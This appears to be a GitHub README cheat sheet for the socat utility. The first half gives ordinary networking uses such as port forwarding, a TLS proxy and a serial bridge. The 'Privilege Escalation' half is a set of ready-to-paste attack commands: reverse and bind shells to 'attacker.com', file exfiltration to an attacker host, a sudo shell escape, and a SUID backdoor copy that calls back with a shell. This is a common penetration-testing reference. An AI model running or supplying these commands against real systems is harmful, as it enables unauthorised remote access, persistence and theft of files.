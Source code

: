 
# socat

## Discription

**Socat** is a command line based utility that establishes two bidirectional byte streams and transfers data between them. Because the streams can be constructed from a large set of different types of data sinks and sources (see address types), and because lots of address options may be applied to the streams, socat can be used for many different purposes.


## Networking 

### socat connect to http-server (port 80 on 'butzel.info')

```bash
socat TCP4:butzel.info:80 -
```

### connect to https-server (port 443 on 'butzel.info' with tls)

```bash
socat openssl:butzel.info:443 -
```

### tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions

socat -x tcp-listen:3180,fork -

### practical examples:
##complete real working http-example:  
(sleep is necessary to prevent socat closing socket before data received)

```bash
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ 
| socat tcp4:butzel.info:80 -
```

### http to httpS 'Proxy' (for an webserver without TLS-Support)
```bash
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80
```

### port forwarding (e.g. own port 3180 to port 22(ssh) on target

```bash
socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:butzel.info:ssh
```

### TOR-forwarding (needs tor-daemon on port 9050 running)

```bash
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
```

### network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)

```bash
socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200
```

### udp to tcp

```bash
socat -u udp-recvfrom:1234,fork tcp:localhost:4321
```

## Privilege Escalation

### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

The resulting shell is not a proper TTY shell and lacks the prompt

```bash
socat stdin exec:/bin/sh
```

### Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run ```socat file:`tty`,raw,echo=0 tcp-listen:12345``` on the attacker box to receive the shell.

```bash
RHOST=attacker.com
RPORT=12345
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
### Bind shell

Run ```socat FILE:`tty`,raw,echo=0 TCP:target.com:12345``` on the attacker box to connect to the shell.

```bash
LPORT=12345
socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

### File upload

It can exfiltrate files on the network.

Run ```socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat``` on the attacker box to collect the file.

```bash
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
```

### File download

Run ```socat -u file:file_to_send tcp-listen:12345,reuseaddr``` on the attacker box to send the file.

```bash
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
```
### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The resulting shell is not a proper TTY shell and lacks the prompt.

```bash
sudo socat stdin exec:/bin/sh
```

### Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via ```system()```-like invocations) it only works on systems like Debian (<= Stretch) that allow the default ```sh``` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Run ```socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.

```bash
sudo install -m =xs $(which socat) .

RHOST=attacker.com
RPORT=12345
./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```